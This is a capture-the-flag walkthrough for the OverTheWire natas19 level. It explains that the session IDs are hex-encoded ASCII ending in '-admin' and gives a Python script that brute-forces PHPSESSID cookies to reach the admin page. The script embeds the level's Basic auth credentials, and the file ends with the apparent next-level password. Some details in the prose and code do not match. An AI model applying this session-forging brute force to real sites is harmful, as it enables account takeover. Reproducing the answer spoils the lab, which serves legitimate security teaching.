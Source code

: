 ```yaml
---
title: natas 19 walkthrough
description: over the wire natas 19
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-19 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 19 walkthrough
    order: 30
---
```

# Description
> Username: natas19
> 
> URL:      http://natas19.natas.labs.overthewire.org

---
# Progress
## Observation
Session ID are not sequential, but they seem similar.
## Analyze
Get 500 session IDs and analyze them.
It seems the session IDs always start with 3 and end with 2d226122. After strip those things. Session IDs can be divided into three parts: `[\d]`, `[3\d]`,`[3\d]`. Therefore, try them.
However, from the script, we cannot crack the session ID. After some tries, it seems that the session ID contains username in it, just right after the 2d22 part. `a` was encoded as `61`. `b` was encoded as `62`, and so on. It seems to be ascii in hex.
Therefore, we can guess there are three digits of number, and followed by `-<username>`.
## Script
```python
import requests
from bs4 import BeautifulSoup

def request_with_session_id(id :str):
    request_with_cookie({
        "PHPSESSID" : f"{id}",
    })

def request_with_cookie(cookies):
    header = {
        "Authorization" : "Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==",
    }
    url = "http://natas19.natas.labs.overthewire.org/index.php"
    response = requests.get(url, headers=header, cookies=cookies)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    if response.status_code == 200:
        print(f"trying session id = {cookies["PHPSESSID"]}")
    if "You are an admin" in content.__str__():
        print(content)
        exit()
    elif "Please login with your admin account" in content.__str__():
        print(content)
        exit()
    else:
        pass

def add_characteristic(raw):
    return raw + "2d61646d696e"

def main():
    thirty = [str(i) for i in range(30, 40)]
    for part1 in thirty:
        request_with_session_id(add_characteristic(part1))
        for part2 in thirty:
            request_with_session_id(add_characteristic(part1+part2))
            for part3 in thirty:
                request_with_session_id(add_characteristic(part1+part2+part3))

def get_cookies():
    header = {
        "Authorization" : "Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==",
    }
    username = "admin"
    password = "AA"
    url = f"http://natas19.natas.labs.overthewire.org/index.php?username=\"{username}\"&password=\"{password}\""
    session_ids = []
    for i in range(300):
        response = requests.get(url, headers=header)
        session_ids.append(response.cookies.get("PHPSESSID"))
    print(session_ids)

def analyze_cookie():
    cookies = []
    for i in range(len(cookies)):
        if cookies[i][0] != "3":
            print(cookies[i])
            exit()
        elif cookies[i][-16:] != "2d61646d696e":
            print(cookies[i])
            exit()
        cookies[i] = cookies[i][1:-12]
    cookies.sort()
    print(cookies)

main()
```
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 

## Tools
- 